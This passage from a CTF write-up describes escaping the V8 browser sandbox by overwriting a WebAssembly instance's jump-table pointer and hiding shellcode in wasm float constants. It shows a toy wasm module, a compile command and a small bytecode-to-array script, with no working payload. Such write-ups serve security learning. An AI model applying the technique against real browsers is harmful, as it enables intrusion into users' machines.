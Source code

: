 After the end of the CTF, the author of this challenge revealed that he overwrote
`WasmInstanceObject` `jump_table_start` to hijack the execution flow into our
shellcode that we crafted inside the wasm code. Apparently, `jump_table_start`
stores the address to `RWX` page for wasm stuff.

> spektre: to escape the sandbox, you will need to use the wasm instance, there is a 64 bit raw pointer that is used to store the starting address of the jump table, if you overwrite that you will get RIP control. then you have to craft your shellcode in wasm code and then just have to jump in middle of the wasm code to execute your shellcode.

I used this [blog post](https://medium.com/@numencyberlabs/use-wasm-to-bypass-latest-chrome-v8sbx-again-639c4c05b157)
for inspiration on crafting shellcode inside wasm code using floating numbers,
as well as [starlabs blog post](https://starlabs.sg/blog/2022/12-deconstructing-and-exploiting-cve-2020-6418)
to connect the fragmented shellcode with short `jmp` and convert shellcode to floating numbers.

Let us try to use this simple wasm code

```wasm
(module
  (func (export "main") (result f64)
    f64.const 13.37
    f64.const 133.37
    f64.const 1333.37
    drop
    drop
  )
)
```

Then, compile it into bytecode using this [toolkit](https://github.com/WebAssembly/wabt).

```console
wat2wasm ./sc.wat
```

Next, convert the bytecode into array with this simple python3 script.

```py
#!/usr/bin/env python3

import sys

with open(sys.argv[1], "rb") as f:
    bc = f.read()

arr = []
for i in bc:
    arr.append(i)

print(arr)
```

```console
$ python3 ./bc.py ./sc.wasm
[0, 97, 115, 109, 1, 0, 0, 0, 1, 5, 1, 96, 0, 1, 124, 3, 2, 1, 0, 7, 8, 1, 4, 109, 97, 105, 110, 0, 0, 10, 33, 1, 31, 0, 68, 61, 10, 215, 163, 112, 189, 42, 64, 68, 164, 112, 61, 10, 215, 171, 96, 64, 68, 20, 174, 71, 225, 122, 213, 148, 64, 26, 26, 11]
```

